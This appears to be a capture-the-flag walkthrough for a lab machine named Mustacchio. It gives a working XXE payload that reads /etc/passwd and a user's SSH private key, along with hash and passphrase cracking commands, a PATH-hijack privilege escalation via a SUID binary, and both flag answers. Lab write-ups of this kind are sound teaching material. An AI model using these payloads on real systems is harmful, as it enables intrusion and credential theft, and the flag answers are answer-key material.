 # Mustacchio

* IP = 10.10.108.42

## Questions/Tasks:

* Starting with basic nmap scan to discover open ports in the server:
`nmap -sC -sV -v $IP`
### Nmap Scan Results:
```bash
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 58:1b:0c:0f:fa:cf:05:be:4c:c0:7a:f1:f1:88:61:1c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC2WTNk2XxeSH8TaknfbKriHmaAOjRnNrbq1/zkFU46DlQRZmmrUP0uXzX6o6mfrAoB5BgoFmQQMackU8IWRHxF9YABxn0vKGhCkTLquVvGtRNJjR8u3BUdJ/wW/HFBIQKfYcM+9agllshikS1j2wn28SeovZJ807kc49MVmCx3m1OyL3sJhouWCy8IKYL38LzOyRd8GEEuj6QiC+y3WCX2Zu7lKxC2AQ7lgHPBtxpAgKY+txdCCEN1bfemgZqQvWBhAQ1qRyZ1H+jr0bs3eCjTuybZTsa8aAJHV9JAWWEYFegsdFPL7n4FRMNz5Qg0BVK2HGIDre343MutQXalAx5P
|   256 3c:fc:e8:a3:7e:03:9a:30:2c:77:e0:0a:1c:e4:52:e6 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCEPDv6sOBVGEIgy/qtZRm+nk+qjGEiWPaK/TF3QBS4iLniYOJpvIGWagvcnvUvODJ0ToNWNb+rfx6FnpNPyOA0=
|   256 9d:59:c6:c7:79:c5:54:c4:1d:aa:e4:d1:84:71:01:92 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGldKE9PtIBaggRavyOW10GTbDFCLUZrB14DN4/2VgyL
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Mustacchio | Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

* Since there is a website running on port 80, we enumerate hidden directories/files with **gobuster**:
`gobuster -u "http://IP/" -w common.txt`
### GoBuster Scan Results:
```
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/custom (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
/robots.txt (Status: 200)
/server-status (Status: 403)

```
* In the mean time we went to the webpage and we are brought here:<br>
![Screenshot](./assets/1.png)
* The About page:<br>
![Screenshot](./assets/5.png)
* Nothing was interesting as such, the `robots.txt` page showed `Disallow: /` which was also not useful as well.
* The `/custom` directory looked strange, so I visited there; under that directory there were 2 directories:`css` and `js`.
* The `js` directory had these files:<br>
![Screenshot](./assets/2.png)
* The `users.bak` file looked strange, it turned out to be a sqlite database file, so looking into its contents, we found:<br>
![Screenshot](./assets/4.png)
* This `admin:1868e36a6d2b17d4c2745f1659433a54d4bc5f4b` looked like some login credentials!!
* The hash was successfully cracked from <a href="https://crackstation.net/">crackstation</a>, and the password was found to be: `bulldog19`.
* Since gobuster also couldn't find any other directories, we initiated another nmap scan over all ports with `-p-`.
### Second scan Results:
```
8765/tcp open  http    syn-ack nginx 1.10.3 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Mustacchio | Login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
* And just like that we found another http port open:`8765`.
* The webpage on that port looks like this:<br>
![Screenshot](./assets/3.png)
* Now login with the above credentials: `admin` and `bulldog19`.
* We're brought here:<br>
![Screenshot](./assets/6.png)
* As the hint says, look at the source code:<br>
![Screenshot](./assets/8.png)
* Now we download the file `/auth/dontforget.bak`, which is actually a XML file:<br>
![Screenshot](./assets/7.png)
* As the source code says, we need to inject xml code into the text area, so we tried out with the above xml code, and got the following Results:<br>
![Screenshot](./assets/9.png)
* We can pretty much guess at this moment that we need to do an XXE injection, we tried some payloads from <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection">Payloads All the things</a>, and after some tweaking, this seemed to work:<br>
```XML
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE updateProfile [
<!ENTITY file SYSTEM "file:///etc/passwd"> ]>
<comment>
  <name>Heisenberg</name>
  <author>Walt</author>
  <com>&file;</com>
</comment>
```
![Screenshot](./assets/10.png)
* Next we tried to change the `file:///etc/passwd` with `file:///home/barry/.ssh/id_rsa`, since the source gave us hints about *SSH* and the user `Barry`; now we get this:<br>
![Screenshot](./assets/11.png)
* Copy the RSA private key, and save in a file `id_rsa`, change the permissions with `chmod 600 id_rsa`; and to break the private key encryption passphrase extract the hash first:`python ssh2john.py id_rsa > hash.txt`, then crack with *John the ripper*:`john hash.txt --wordlist=rockyou.txt`
* The passphrase is successfully cracked as:`urieljames`
* Now ssh into the server with:`ssh -i id_rsa barry@IP`<br>
![Screenshot](./assets/12.png)
* And just like that we get the user flag.


1. What is the user flag?

**Ans-62d77a4d5f97d47c5aa38b3b2651b831**

* Firstly we tried `sudo -l` which didn't work as the user barry can't run sudo commands!
* Next we checked the another user's( i.e Joe's) home folder and found this:<br>
![Screenshot](./assets/13.png)
* Carefully notice the permissions, it has execution permissions for all users and also a SUID binary i.e even if we run it as a low privileged user, our `euid` or `effective user ID` will become root.
* Now, how to know initially what does the binary do?
* Try running `strings` command on it,( the strings command extracts all printable strings from any binary/ascii file ):<br>
![Screenshot](./assets/14.png)
* So, probably from the output we can guess that the binary runs the C function `system()` and executes the command:`tail -f /var/log/nginx/access.log`
* Notice that the tail command has no absolute path, hence we can make an executable with same name (tail) and add it to path:<br>
* Create your own script to elevate privileges, name it as `tail`, mark it executable with:`chmod +x tail` and finally add to path with:
```bash
export PATH=$PWD:$PATH
```
* And just like that we get a root privileged shell:<br>
![Screenshot](./assets/15.png)

2. What is the root flag?

**Ans-3223581420d906c4dd1a5f9b530393a5**
